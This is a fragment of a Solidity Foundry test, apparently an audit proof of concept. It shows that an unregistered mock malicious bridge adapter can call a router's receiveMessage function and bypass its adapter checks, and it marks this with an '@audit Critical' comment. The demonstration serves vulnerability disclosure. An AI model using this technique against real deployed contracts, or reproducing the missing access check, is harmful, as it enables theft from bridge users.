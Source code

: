 ```solidity
            console.log('addapterInstances',address(adapter));
        }
        assertTrue(counter.isAdapterInitialized(0));
        IBridgeAdapter addapterInstance = counter.getAdapter(0);

        vm.stopPrank();

        //======illustrating any contract can call RouterHub::receiveMessage()

        //instantiating arbitrary malicious contract
        MockMaliciousBridgeAdapter maliciouscontract = new MockMaliciousBridgeAdapter(address(counter));
        //wraps contract with interface
        IBridgeAdapter wrappedMaliciouscontract = IBridgeAdapter(address(maliciouscontract));
        
        //assert not included by `MANAGER_ROLE` via `addAdapter()`
        assertEq(0, counter.adapterToId(wrappedMaliciouscontract));
        Messages.MessageReceived memory arbitraryNum; // not set just illustrating
        
        vm.expectEmit();

        //Emmiting this shows contract was successfully called by malicious contract (not added via `addAdapter()`)
        // @audit Critical
        emit Counter.successfullyBypassedAllrevertChecksAbove();
        maliciouscontract.cat(arbitraryNum);
        console.log('wrappedMaliciouscontract',address(wrappedMaliciouscontract));
        
        
        
    }

    /**
    =========Signatures
    function isAdapterInitialized(uint16 adapterId) public view returns (bool) 
    function getAdapter(uint16 adapterId) public view returns (IBridgeAdapter)
    function addAdapter(uint16 adapterId, IBridgeAdapter adapter) external
     */
}

```